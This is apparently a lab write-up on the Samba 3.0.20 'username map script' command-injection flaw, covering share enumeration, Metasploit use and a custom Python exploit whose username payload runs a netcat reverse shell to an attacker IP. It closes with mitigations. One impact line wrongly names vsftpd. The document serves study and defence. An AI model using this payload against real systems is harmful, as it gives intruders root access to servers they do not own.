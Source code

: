 # smbd 3.X - 4.X

## Introduction

- The samba daemon provides the Active Directory services and file and print services to SMB clients. The smbd daemon provides the file and print services to SMB clients.
- Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an older transport layer that allows Windows computers to talk to each other on the same network.
- Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack.

## Enumeration

- We can list the shared directories using-
	- `smbclient -L //IP -U%`
		- -L: Lists the shares
		- -U%: Avoid asking for password

![enumeration results](../../images/smbd_3.X-4.X_enum.jpeg)

- As we can see that there are a lot of shared directories here, most of which are generated by the system and is not meant to be accessed ([Read more here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/remove-administrative-shares#introduction))
- But we can access the `tmp` share using:
	- `smbclient //IP/tmp -U%`, syntax of this command is pretty straightforward.
- And now, we can run commands on the server.

![tmp share files](../../images/smbd_3.X-4.X_tmp.jpeg)

- However, this share does not reveal any useful information.

## Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution

- Searching more about the version of smbd, I found that it is vulnerable to `Command Execution` if the username map script option is enabled in `smb.conf` file (smbd configuration file).
	- Samba's username map feature allows the mapping of usernames from client requests to different usernames on the server.This can be particularly useful in environments where users have different usernames on different systems.
	- For example, a user might have one username on a Windows client and a different username on a Unix or Linux server running Samba. The username map feature enables these users to access resources on the Samba server without needing to maintain identical usernames across systems.
	- The username map script option in Samba is used to specify a script that Samba will call to determine the mapping of a username.
	- This option provides a dynamic way to map usernames by running an external script, which can be more flexible than static mappings defined in a username map file.
	- The way this works is that when a user attempts to authenticate, Samba calls the specified script with the username as an argument. The script then returns the mapped username that Samba should use for that session. 
- Samba versions 3.0.20 through 3.0.25rc3 allows a command execution vulnerability when using the non-default `username map script` configuration option. By specifying a `username containing shell meta characters`, attackers can execute arbitrary commands. 
- No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

### Proof of Concept

- This vulnerability can be exploited either through Metasploit's `exploit/multi/samba/usermap_script` exploit or a manually crafted script.
- Since this exploit requires using `shell meta characters`, it is difficult (though not impossible) to exploit it manually using tools like `smbclient` through a shell.

- Metasploit Exploitation
	- Start metasploit using:
		- `msfconsole`
	- Using the exploit/multi/samba/usermap_script exploit:
		- `use exploit/multi/samba/usermap_script`
	- Viewing the required options for exploitation:
		- `show options`

	![metasploit options](../../images/smbd_3.X-4.X_metasploit_1.jpeg)

	- The only 2 required options is `RHOSTS` which is the target IP.
		- `set RHOSTS IP_ADDRESS`
	- Run the exploit using:
		- `exploit` or `run`

	![metasploit options](../../images/smbd_3.X-4.X_metasploit_1.jpeg)

	- As we can see, we got a shell as root and we are able to run commands.

- Script Exploitation
	- I manually created a [python script](./scripts/exploit.py) to spawn a shell. Here is how it works
		- Reverse Listener: This scripts assumes that the attacker is already listening on the supplied port. For eg. using `nc -lnvp 9001`
    	- Imports: The script uses the smb.SMBConnection for SMB communication and sys for accessing command-line arguments.
    	- Command-Line Arguments: Checks if the target IP and listener port are provided; if not, it prints usage instructions and exits.
    	- Variable Setup: Extracts the listener port and target IP from command-line arguments. 
    	- Payload: ``` `nc -c /bin/bash 192.168.1.6 {port}` ``` Constructs a payload using nc (netcat) to open a reverse shell to the attacker's machine, embedding this payload in the username variable. You can replace this payload with your own if you want. The main thing here to notice is that the payload has to be enclosed within backticks [``].
    	- SMB Connection: Attempts to establish an SMB connection with the target using the crafted username as payload. It uses port 139, commonly associated with SMB services.
    	- Exception Handling: Catches and prints any errors encountered during the attempt to connect.
    	- Cleanup: Closes the SMB connection and prints a success message, indicating the script's completion.
    - Using the exploit script
    	- Listening on port 9001 using on another terminal window
    		- `nc -lnvp 9001`
    	- Running the script
    		- `python3 exploit.py 192.168.1.6 9001`

    	![metasploit options](../../images/smbd_3.X-4.X_script.jpeg)

    - As we can see, we got a shell as root and we are able to run commands.

### Impact Analysis

- This vulnerability has Remote Code Execution [RCE] exploit and allows full access of the system as the root user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is high.

## Patches and Updates:

- The developers of smbd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

## Mitigations

- Change the default port (139) to a non-standard port to reduce the risk of automated attacks.
- Restrict access to known IP addresses or ranges through firewall rules or smbd configuration.
- Regularly update smbd server software to ensure all security patches are applied.
- Set up services as non-root user in a sandbox or isolated environment.

## Conclusion

- The samba daemon (smbd) provides file and print services to SMB clients, utilizing ports 139 and 445 for communication. Enumeration techniques, such as using smbclient, can reveal shared directories, including a vulnerable tmp share that doesn't require a password for access.
- A significant vulnerability in Samba versions 3.0.20 through 3.0.25rc3 allows for command execution via the username map script option in the smb.conf file. This vulnerability, which does not require authentication to exploit, can lead to full system access as the root user by injecting shell meta characters into the username.
- Exploitation of this vulnerability can be achieved through tools like Metasploit or manually crafted scripts, allowing attackers to gain a root shell on the affected system. The impact of this vulnerability is high due to the potential for remote code execution and system compromise.
- To mitigate this issue, it's recommended to update to the latest version of smbd, change the default samba port, limit access to known IPs, and regularly apply security patches.

## References

- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb
- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script
- https://www.exploit-db.com/exploits/16320
- https://github.com/v1nc3-source/Samba_3.x_4.x_exploit
